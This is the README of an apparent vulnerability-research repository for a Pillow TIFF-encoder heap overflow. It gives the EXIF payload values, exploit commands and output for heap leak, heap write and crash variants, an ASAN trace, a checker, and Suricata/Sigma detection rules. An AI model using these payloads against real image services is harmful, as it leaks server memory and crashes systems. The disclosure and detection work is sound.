

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#the-leak">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#what-this-repo-proves-and-does-not-prove">Claims</a> · <a href="https://blog.al4n4n.com/CVE-2026-128067-Pillow-libtiff-Heap-Buffer-Overflow/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-128067: Pillow libtiff Encoder Heap Buffer Overflow via EXIF Geometry Tag Overrides

**CWE-787** | Out-of-bounds Write | Pillow >= 2.3.0, < 13.0.0 | Any app re-saving user images as TIFF

Author: al4n4n (Dadb0d)

Upload a 204-byte JPEG with crafted EXIF metadata to any Python service that re-saves images as TIFF using Pillow < 13.0.0. The server returns 8,192 bytes of its own heap in the output TIFF. No credentials, no session, one POST. With `Predictor=2` on libtiff < 4.7.1, the same upload rewrites 128 heap bytes per scanline. With an oversized `ImageWidth`, the server crashes with SIGSEGV on every request.

No public PoC existed for this CVE before this repo.

**Write-up:** [blog.al4n4n.com/...CVE-2026-128067...](https://blog.al4n4n.com/CVE-2026-128067-Pillow-libtiff-Heap-Buffer-Overflow/)

**Fixed in:** Pillow 13.0.0 ([commit ec5f1cb](https://github.com/python-pillow/Pillow/commit/ec5f1cbcf67275641abaad5c065ffb64a0a804a9))

---

## The bug

`TiffImagePlugin._save` sets TIFF geometry tags (`ImageWidth`, `ImageLength`, `PlanarConfiguration`) from the actual image dimensions, then a merge loop (~lines 1768-1772) overwrites them with values from `tiffinfo=`, `exif=`, or the source image's own IFD. `SamplesPerPixel` is never explicitly set for single-band modes (e.g., grayscale).

In `ImagingLibTiffEncode` (TiffDecode.c:1035), the row buffer is allocated from the real image dimensions: for a 64x64 grayscale image, `calloc(64, 1)` = 64 bytes. But `TIFFWriteScanline` reads a scanline sized by the tag-described geometry. No check exists against `TIFFScanlineSize()`.

With `SamplesPerPixel=3` injected via EXIF:

- Buffer: 64 bytes (the real 64x64 grayscale image)
- libtiff reads: 192 bytes per scanline (`64 * 3`)
- **Over-read: 128 bytes of heap per row, 64 rows = 8,192 bytes returned to the attacker**

## Trigger conditions

1. **Pillow >= 2.3.0, < 13.0.0** (tested with 12.3.0)
2. The application re-saves a user-supplied image as **TIFF with LZW compression** using the libtiff encoder
3. The application passes **EXIF metadata through** to the save call (e.g., `exif=img.getexif()`)
4. The uploaded image carries **EXIF tags that override TIFF geometry** (`SamplesPerPixel`, `ImageWidth`, etc.)

## Three variants

| Variant | EXIF payload | Impact | libtiff requirement |
|---|---|---|---|
| **leak** | `SamplesPerPixel=3, Photometric=RGB` | 128 heap bytes per row returned in the output TIFF | Any |
| **write** | Same + `Predictor=2` | 128 heap bytes per row rewritten by horizontal differencing | < 4.7.1 (4.7.1+ copies before differencing) |
| **crash** | `ImageWidth=134217728` | SIGSEGV: libtiff reads 128 MiB from a 64-byte buffer | Any |

## Files

| File | Purpose |
|---|---|
| `setup.py` | Build Docker lab (6 targets: stock/distro/ASAN × vuln/patched). Run once. |
| `check.py` | **Non-destructive** vulnerability detection. Safe for production. Exit 0=vulnerable, 1=not, 2=unknown. |
| `poc.py` | Upload crafted JPEG, show all three variants. Zero credentials. |
| `app.py` | Flask image-to-TIFF conversion service (the vulnerable target). |
| `Dockerfile` | Multi-target build: stock, distro (Debian libtiff), ASAN, capture sidecar. |
| `detection/` | Suricata and Sigma rules for detecting exploitation attempts. |
| `capture/` | Live pcap of the exploit traffic (93 packets). |
| `evidence/` | Raw, unedited output from every run that backs a claim. |

## Repository structure

```
CVE-2026-128067/
├── setup.py              # lab bootstrap (local or remote Docker)
├── check.py              # non-destructive scanner
├── poc.py                # three-variant exploit trigger
├── app.py                # vulnerable Flask service
├── Dockerfile            # multi-target lab build
├── detection/
│   ├── cve-2026-128067.rules    # Suricata rules (SID 1000001, 1000002)
│   ├── cve-2026-128067-crash.yml # Sigma rule
│   ├── README.md
│   └── tests/                   # benign fixtures and test scripts
├── capture/
│   └── exploit.pcap      # live capture (93 packets, sha256 4a3d1841...)
├── evidence/
│   ├── INDEX.md           # maps every evidence file to its claim
│   └── *.txt              # raw run output
└── meta.json
```

## Usage

```sh
# 1. setup (builds images, boots 6 containers on a Docker host)
python3 setup.py --remote alan@gmkbox.local

# 2. check vulnerability (non-destructive, safe for production)
python3 check.py --target 127.0.0.1:8067 --probe

# 3. trigger the exploit (all three variants)
python3 poc.py --target 127.0.0.1:8067 --container cve-2026-128067-vuln \
    --docker "ssh alan@gmkbox.local docker"

# 4. run against patched target (negative control)
python3 poc.py --target 127.0.0.1:8068 --container cve-2026-128067-patched \
    --docker "ssh alan@gmkbox.local docker"

# 5. reliability test (10 rounds, all variants)
python3 poc.py --target 127.0.0.1:8071 --rounds 10 \
    --container cve-2026-128067-vuln-distro \
    --docker "ssh alan@gmkbox.local docker"

# 6. teardown
python3 setup.py --down --remote alan@gmkbox.local
```

`setup.py` prints the exact commands when done. For local Docker, omit `--remote`.

## Check (non-destructive)

`check.py` detects the vulnerability without triggering the full overflow. It sends a JPEG with `ImageWidth=65` for a 64-pixel image — a 1-byte OOB read, minimal impact:

```
$ python3 check.py --target 127.0.0.1:8067 --probe
[*] CVE-2026-128067 check against http://127.0.0.1:8067
    passive: vulnerable - service reports Pillow 12.3.0, inside the affected range >= 2.3.0, < 13.0.0
    probe:   vulnerable - service returned a TIFF 65 pixels wide for a 64-pixel upload
VERDICT: VULNERABLE (confidence: high)
```

Against the patched target:

```
$ python3 check.py --target 127.0.0.1:8068 --probe
[*] CVE-2026-128067 check against http://127.0.0.1:8068
    passive: not vulnerable - service reports Pillow 13.0.0, outside the affected range
    probe:   not vulnerable - service refused the probe with HTTP 422 'encoder error -8'
VERDICT: NOT VULNERABLE (confidence: high)
```

## The leak

The leak variant sends a 204-byte JPEG with `EXIF SamplesPerPixel=3, Photometric=RGB`. The server's TIFF encoder reads 192-byte scanlines from a 64-byte buffer. The 128 extra bytes come from the target's heap:

```
$ python3 poc.py --target 127.0.0.1:8067 [...]
[*] leak: POST http://127.0.0.1:8067/convert  (204-byte 64x64 gray JPEG [...])
    HTTP 200  image/tiff  1922 bytes
    TIFF says: ImageWidth=64 SamplesPerPixel=3 -> 192 bytes per row; we uploaded 64 bytes per row
    row 0, bytes 0..63: our pixels (0x80 x 64)
    row 0, bytes 64..191: never uploaded, read from the target's heap (97 of 128 non-zero):
      +64   00 00 00 00 00 00 00 00 41 01 00 00 00 00 00 00  ........A.......
      +80   01 00 00 00 00 00 00 00 a0 19 a0 94 07 7f 00 00  ................
      +96   10 01 00 00 00 00 00 00 94 4f a8 76 4e ea 2c a3  .........O.vN.,.
      [...]
    64 rows x 128 bytes = 8192 out-of-bounds bytes returned; 1 distinct row tail(s)
    => IMPACT: 8192 bytes of target heap returned in the TIFF (97/128 non-zero in row 0)
```

The heap data contains pointer-like values (`a0 19 a0 94 07 7f 00 00` — part of a mmap'd region address). This is an information disclosure primitive: one HTTP request, 8,192 bytes of server heap in the response.

## The heap write

With `Predictor=2` added, libtiff applies horizontal differencing to each row before compression. On libtiff < 4.7.1, `horDiff8` differences the row in place, rewriting the 128 heap bytes past the buffer:

```
$ python3 poc.py --target 127.0.0.1:8071 [...]  # distro build, libtiff 4.7.0
[*] write: POST http://127.0.0.1:8071/convert  (216-byte 64x64 gray JPEG [...])
    [...]
    heap behind the buffer changed between consecutive rows: 63/63
    row k+1 tail == row k tail differenced again (i - (i-3)):  63/63
    => IMPACT: target rewrote 128 heap bytes past its 64-byte buffer on every row
```

On libtiff 4.7.1+ (official Pillow wheels), `horDiff8` works on a private copy of the row, so `Predictor=2` is only an additional over-read — not a heap write.

## The crash

With `ImageWidth=134217728` (128 MiB), libtiff attempts to read a 128 MiB scanline from a 64-byte buffer:

```
$ python3 poc.py --target 127.0.0.1:8067 [...]
[*] crash: POST http://127.0.0.1:8067/convert  (192-byte 64x64 gray JPEG, EXIF ImageWidth=134217728)
    no HTTP response: RemoteDisconnected: Remote end closed connection without response
    target log (cve-2026-128067-vuln):
      | [2026-11-15 21:57:01 +0000] [1] [WARNING] Worker (pid:44) was sent SIGSEGV!
    => IMPACT: worker killed by SIGSEGV
```

## ASAN confirmation

AddressSanitizer pinpoints the exact overflow:

```
$ python3 poc.py --target 127.0.0.1:8069 --variant leak [...]  # ASAN build
[...]
==8==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x506000001ce0 [...]
READ of size 1 at 0x506000001ce0 thread T0
    #0 0x79f1afcb4071 in LZWEncode /src/tiff-4.7.0/libtiff/tif_lzw.c:1163
    #1 0x79f1afce769e in TIFFWriteScanline /src/tiff-4.7.0/libtiff/tif_write.c:175
    #2 0x79f1afe238f9 in ImagingLibTiffEncode src/libImaging/TiffDecode.c:1035
    [...]

0x506000001ce0 is located 0 bytes after 64-byte region [0x506000001ca0,0x506000001ce0)
allocated by thread T0 here:
    #0 0x79f1b5361610 in calloc [...]
    #1 0x79f1afd8d929 in _setimage src/encode.c:293

SUMMARY: AddressSanitizer: heap-buffer-overflow /src/tiff-4.7.0/libtiff/tif_lzw.c:1163 in LZWEncode
```

The 64-byte buffer was allocated at `encode.c:293`; the read at `tif_lzw.c:1163` is 0 bytes past it.

## Negative control

The same `poc.py` against Pillow 13.0.0 — all three variants are rejected:

```
$ python3 poc.py --target 127.0.0.1:8068 [...]
[*] leak:  HTTP 422  {"error":"OSError: encoder error -8 when writing image file"}
[*] write: HTTP 422  {"error":"OSError: encoder error -8 when writing image file"}
[*] crash: HTTP 422  {"error":"OSError: encoder error -8 when writing image file"}
[=] leak  0/1  no impact observed
[=] write 0/1  no impact observed
[=] crash 0/1  no impact observed
RESULT: no impact observed (exit 1)
```

The defense-in-depth check in TiffDecode.c rejects configurations where `TIFFScanlineSize64() > state->bytes`.

## Reliability

10-round test on the distro build (Pillow 12.3.0, libtiff 4.7.0):

```
[=] leak  10/10  8192 bytes of target heap returned in the TIFF
[=] write 10/10  target rewrote 128 heap bytes past its 64-byte buffer on every row
[=] crash 10/10  worker killed by SIGSEGV
RESULT: impact observed (exit 0)
```

All three variants fire on every request.

## Detection rules

### Suricata

See [`detection/cve-2026-128067.rules`](detection/cve-2026-128067.rules):

- **SID 1000001** (crash variant): alerts on JPEG uploads with EXIF `ImageWidth` >= 16M. Low FP risk.
- **SID 1000002** (leak/write variant): alerts on JPEG uploads with EXIF `SamplesPerPixel` tag. Medium FP risk — the tag can appear in legitimate EXIF, and the rule cannot verify the mismatch with the actual image data.

### Sigma

See [`detection/cve-2026-128067-crash.yml`](detection/cve-2026-128067-crash.yml): detects gunicorn worker SIGSEGV/SIGBUS/SIGABRT crash signals. Symptom-level — not specific to this CVE.

Both rule sets are **experimental / minimally validated**: tested against the canonical exploit capture and one benign fixture only. See [`detection/README.md`](detection/README.md) for full limitations.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Heap data leak: 8,192 bytes per request | **Proven** | `evidence/poc-vuln-stock.txt`, `evidence/poc-vuln-distro-rounds10.txt` |
| Heap write: 128 bytes/row via Predictor=2 | **Proven** (libtiff < 4.7.1) | `evidence/poc-vuln-distro-rounds10.txt` |
| Crash: SIGSEGV from oversized ImageWidth | **Proven** | `evidence/poc-vuln-stock.txt` |
| ASAN-confirmed heap-buffer-overflow | **Proven** | `evidence/poc-vuln-asan-leak.txt`, `evidence/poc-vuln-asan-write.txt` |
| Pillow 13.0.0 is fixed | **Confirmed** | `evidence/poc-patched-stock.txt` |
| Remote code execution | **Not reached** | The OOB write corrupts heap metadata and crashes; controlled execution was not attempted |

## Lab deviations from stock install

- gunicorn started with `--no-control-socket` to avoid a fork deadlock with the ASAN runtime (unrelated to the vulnerability)
- ASAN build uses Debian 13's gcc 14.2.0 due to a sanitizer startup issue on this kernel
- All targets bind to 127.0.0.1 only

## Tested on

| Component | Version | Notes |
|---|---|---|
| Pillow (vulnerable) | 12.3.0 | Last affected release |
| Pillow (patched) | 13.0.0 | First fixed release |
| libtiff (stock/bundled) | 4.7.1 | Official PyPI wheel; leak + crash proven, write is over-read only |
| libtiff (distro) | 4.7.0 | Debian 13 package; all three variants including heap write proven |
| Python | 3.12.16 | |
| Docker host | Ubuntu 24.04, x86_64 | gmkbox.local |
| Date | 2026-11-15 | |

## References

- [GHSA-xcvg-w56q-r89m](https://github.com/python-pillow/Pillow/security/advisories/GHSA-xcvg-w56q-r89m) (GitHub Security Advisory)
- [CVE-2026-128067](https://www.cve.org/CVERecord?id=CVE-2026-128067)
- [Fix commit ec5f1cb](https://github.com/python-pillow/Pillow/commit/ec5f1cbcf67275641abaad5c065ffb64a0a804a9)
- [Pillow 13.0.0 release](https://pillow.readthedocs.io/en/stable/releasenotes/13.0.0.html)

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).
